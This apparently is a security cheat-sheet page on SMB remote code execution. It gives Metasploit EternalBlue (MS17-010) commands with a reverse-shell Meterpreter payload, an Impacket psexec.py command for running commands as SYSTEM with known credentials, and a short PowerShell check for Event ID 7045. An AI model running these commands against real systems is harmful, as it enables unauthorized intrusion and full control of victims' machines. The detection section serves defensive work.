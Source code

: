 ### **🔥 RCE Exploits Using SMB ( CVE )**

### **🛠️  Exploit EternalBlue (MS17-010)**

If the target is vulnerable to **EternalBlue**, execute an exploit to gain RCE.

### **Using Metasploit:**

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_IP>
set LHOST <your_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

✅ **Spawns a remote Meterpreter shell** on the target.

### **Using Impacket (No Metasploit)**

```bash
python3 eternalblue_exploit.py <target_IP>
```

✅ Exploits MS17-010 without Metasploit.

---

### **🛠️  Execute Commands via PSEXEC (SMB Admin RCE)**

If **SMB credentials** are known, use `psexec.py` from Impacket to **execute commands remotely**.

```bash
psexec.py <domain>/<username>:<password>@<target_IP>
```

✅ **Executes commands as SYSTEM**, allowing **full control** over the target.

## **3.3🛡️ Defending Against Remote Code Execution (RCE) via SMB**

### **🔍 Detect RCE Using PSEXEC & Remote Services (Event ID 7045)**

Attackers use **psexec.py**, **smbexec.py**, or **SC Manager** to create remote services.

```powershell
Get-WinEvent -LogName System | Where-Object { $_.Id -eq 7045 }
```

✅ **Event ID 7045** → Indicates a new service was installed.

🚨 **Red Flag** → If the service name is suspicious (`backdoor`, `ransomware`, `persistence`), an **SMB-based RCE may have been used**.
